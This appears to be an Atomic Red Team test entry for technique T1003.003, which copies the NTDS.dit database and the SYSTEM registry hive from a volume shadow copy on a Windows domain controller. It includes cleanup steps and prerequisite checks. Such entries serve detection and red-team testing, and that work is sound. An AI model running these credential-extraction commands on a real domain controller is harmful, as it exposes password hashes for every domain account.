 This test requires steps taken in the test "Create Volume Shadow Copy with vssadmin".
A successful test also requires the export of the SYSTEM Registry hive.
This test must be executed on a Windows Domain Controller.

**Supported Platforms:** Windows


**auto_generated_guid:** c6237146-9ea6-4711-85c9-c56d263a6b03





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vsc_name | Name of Volume Shadow Copy | string | &#92;&#92;?&#92;GLOBALROOT&#92;Device&#92;HarddiskVolumeShadowCopy1|
| extract_path | Path for extracted NTDS.dit | path | C:&#92;Windows&#92;Temp|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
copy #{vsc_name}\Windows\NTDS\NTDS.dit #{extract_path}\ntds.dit
copy #{vsc_name}\Windows\System32\config\SYSTEM #{extract_path}\VSC_SYSTEM_HIVE
reg save HKLM\SYSTEM #{extract_path}\SYSTEM_HIVE
```

#### Cleanup Commands:
```cmd
del "#{extract_path}\ntds.dit"        >nul 2> nul
del "#{extract_path}\VSC_SYSTEM_HIVE" >nul 2> nul
del "#{extract_path}\SYSTEM_HIVE"     >nul 2> nul
```



#### Dependencies:  Run with `command_prompt`!
##### Description: Target must be a Domain Controller
##### Check Prereq Commands:
```cmd
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT
```
##### Get Prereq Commands:
```cmd
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```
##### Description: Volume shadow copy must exist
##### Check Prereq Commands:
```cmd
if not exist #{vsc_name} (exit /b 1)
```
##### Get Prereq Commands:
```cmd
echo Run "Invoke-AtomicTest T1003.003 -TestName 'Create Volume Shadow Copy with vssadmin'" to fulfill this requirement
```
##### Description: Extract path must exist
##### Check Prereq Commands:
```cmd
if not exist #{extract_path} (exit /b 1)
```
##### Get Prereq Commands:
```cmd
mkdir #{extract_path}
```